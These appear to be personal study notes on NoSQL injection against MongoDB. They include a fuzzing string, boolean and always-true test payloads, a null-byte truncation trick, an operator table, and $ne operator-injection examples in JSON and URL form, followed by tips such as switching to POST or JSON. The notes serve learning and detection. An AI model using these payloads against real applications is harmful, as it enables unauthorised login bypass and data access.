 ```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

**NoSQL statement check**

False statement

```
Gifts' && 0 && 'x
```

True statement

```
Gifts' && 1 && 'x
```

Always true

```
Gifts'||1||'
```

We can also try to add null value. This works like a comment.

```
'%00
```

The result of null value is whatever statement after null value won't be processed. That's how MongoDB intreprets

**NoSQL injection with Operator Injection**


| Operator  | Meaning |
| ------------- | ------------- |
| $where  | Matches documents that satisfy a JavaScript expression. |
| $ne  |Matches all values that are not equal to a specified value. |
| $in | Matches all of the values specified in an array. |
| $regex | Selects documents where values match a specified regular expression. |

To exploit NoSQL Operator Injection, we can try nested objects.

In JSON

**{"username":"wiener"} becomes {"username":{"$ne":"invalid"}}**

In URL path

**username[$ne]=invalid**

<h3>Things to do if URL path doesn't work:</h3>

1. HTTP tampering. Change GET to POST
2. Change the content-type to Application/json
3. Do it in JSON query

<h3>I won't go deeper like how to manual exploit this. The reason is i just want to know how it work and how can i detect it. If i want to exploitm i will use automating tool </h3>
